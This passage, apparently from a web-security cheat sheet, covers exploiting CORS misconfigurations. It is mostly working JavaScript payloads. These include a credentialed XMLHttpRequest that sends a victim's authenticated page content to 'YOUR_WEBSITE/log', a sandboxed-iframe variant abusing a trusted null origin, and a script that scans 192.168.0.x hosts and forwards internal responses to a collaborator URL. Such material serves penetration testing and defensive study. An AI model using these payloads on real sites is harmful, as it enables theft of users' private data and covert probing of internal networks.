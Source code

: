 	 function reqListener() {  
	 location='/log?key='+this.responseText;  
	 };  
	</script>
     ```
	 
	 This script will fetch the FULL_URL_TO_TARGET page using the Access-Control-Allow-Credentials header. Then when the page will be loaded, it will take the page data  and send it back to you on your website.
	 
	 
- Trusted null origin

	Basicly this is the same as the previous one, just include the ifram with sandbox options => `sandbox="allow-scripts allow-top-navigation allow-forms"`

	```javascript
	<iframe sandbox="allow-scripts allow-top-navigation allow-forms" src="data:text/html, <script>  
	 var req = new XMLHttpRequest ();  
	 req.onload = reqListener;  
	 req.open('get','FULL_URL_TO_TARGET',true);  
	 req.withCredentials = true;  
	 req.send();  

	 function reqListener() {  
	 location='YOUR_WEBSITE/log?key='+encodeURIComponent(this.responseText);  
	 };  
	</script>"></iframe>
	```
	
	
- Internal network pivot attack

	This one is the trickier, it will follow these steps:
	
	1. Scan for endpoint in the internal network, it will fetch a XSS on the scanned page, your website log should include port and the corresponding ip.
	
		```javascript
		<script>
		var q = [], collaboratorURL = 'YOURWEBSITE';
		for(i=1;i<=255;i++){
		  q.push(
		  function(url){
			return function(wait){
			fetchUrl(url,wait);
			}
		  }('http://192.168.0.'+i+':8080'));
		}
		for(i=1;i<=20;i++){
		  if(q.length)q.shift()(i*100);
		}
		function fetchUrl(url, wait){
		  var controller = new AbortController(), signal = controller.signal;
		  fetch(url, {signal}).then(r=>r.text().then(text=>
			{
			location = collaboratorURL + '?ip='+url.replace(/^http:\/\//,'')+'&code='+encodeURIComponent(text)+'&'+Date.now()
		  }
		  ))
		  .catch(e => {
		  if(q.length) {
			q.shift()(wait);
		  }
		  });
		  setTimeout(x=>{
		  controller.abort();
		  if(q.length) {
